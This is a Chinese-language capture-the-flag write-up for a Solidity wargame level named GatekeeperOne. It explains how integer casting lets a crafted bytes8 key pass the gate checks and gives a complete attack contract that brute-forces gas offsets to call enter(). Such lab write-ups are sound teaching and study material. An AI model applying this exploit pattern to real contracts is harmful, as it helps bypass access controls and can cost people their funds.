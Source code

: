     >1. uint32(uint64(_gateKey))转换后会取低位，所以变成0xdeadbeef，uint16(uint64(_gateKey))同理会变成0xbeef，uint16和uint32在比较的时候，较小的类型uint16会在左边填充0，也就是会变成0x0000beef和0xdeadbeef做比较，因此想通过第一个require只需要找一个形为0x????????0000????这种形式的值即可，其中?是任取值。
    >2. 第二步要求双方不相等，只需高4个字节中任有一个bit不为0即可
    >3. 通过前面可知，uint32(uint64(_gateKey))应该是类似0x0000beef这种形式，所以只需要让最低的2个byte和tx.origin地址最低的2个byte相同即可，也就是，key的最低2个字节设置为合约地址的低2个字节。这里tx.origin就是metamask的账户地址

    攻击合约：
    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    interface GatekeeperOne {
        function entrant() external returns (address);
        function enter(bytes8 _gateKey) external returns (bool);
    }

    contract attack {
        GatekeeperOne gatekeeperOne;
        address target;
        address entrant;

        event log(bool);
        event logaddr(address);

        constructor(address _addr) public {
            // 设置为题目地址
            target = _addr;
        }

        function exploit() public {
            // 后四位是metamask上账户地址的低2个字节
            bytes8 key=0xAAAAAAAA0000Ff67;
            bool result;
            for (uint256 i = 0; i < 120; i++) {//gas爆破
                (bool result, bytes memory data) = address(target).call{gas:i + 150 + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)",key));
                if (result) {
                    break;
                }
            }
            emit log(result);
        }

        function getentrant() public {
            gatekeeperOne = GatekeeperOne(target);
            entrant = gatekeeperOne.entrant();
            emit logaddr(entrant);
        }
    }
    ```

  * 解题步骤
  执行exploit方法后执行getentrant,可以在交易详细中看到提交上来的事务中address已经为我们的地址。通关
